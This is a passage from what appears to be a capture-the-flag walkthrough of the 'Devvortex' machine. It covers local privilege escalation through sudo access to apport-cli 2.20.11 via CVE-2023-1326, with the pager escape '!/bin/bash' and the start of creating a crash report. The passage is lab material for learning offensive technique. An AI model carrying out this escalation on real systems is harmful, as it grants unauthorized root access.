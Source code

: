 ```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli --help
Usage: apport-cli [options] [symptom|pid|package|program path|.apport/.crash file]

Options:
  -h, --help            show this help message and exit
  -f, --file-bug        Start in bug filing mode. Requires --package and an
                        optional --pid, or just a --pid. If neither is given,
                        display a list of known symptoms. (Implied if a single
                        argument is given.)
  -w, --window          Click a window as a target for filing a problem
                        report.
  -u UPDATE_REPORT, --update-bug=UPDATE_REPORT
                        Start in bug updating mode. Can take an optional
                        --package.
  -s SYMPTOM, --symptom=SYMPTOM
                        File a bug report about a symptom. (Implied if symptom
                        name is given as only argument.)
  -p PACKAGE, --package=PACKAGE
                        Specify package name in --file-bug mode. This is
                        optional if a --pid is specified. (Implied if package
                        name is given as only argument.)
  -P PID, --pid=PID     Specify a running program in --file-bug mode. If this
                        is specified, the bug report will contain more
                        information.  (Implied if pid is given as only
                        argument.)
  --hanging             The provided pid is a hanging application.
  -c PATH, --crash-file=PATH
                        Report the crash from given .apport or .crash file
                        instead of the pending ones in /var/crash. (Implied if
                        file is given as only argument.)
  --save=PATH           In bug filing mode, save the collected information
                        into a file instead of reporting it. This file can
                        then be reported later on from a different machine.
  --tag=TAG             Add an extra tag to the report. Can be specified
                        multiple times.
  -v, --version         Print the Apport version number.
```

Check out the version of this `cli`.

```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli -v
2.20.11
```

This version seemed to be vulnerable to [CVE-2023-1326](https://github.com/diego-tella/CVE-2023-1326-PoC). To execute this, we have to view a report and then execute `!/bin/bash`. Since there was no report files in `/var/crash/` as per the PoC, we can create a new report using the cli.

```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
```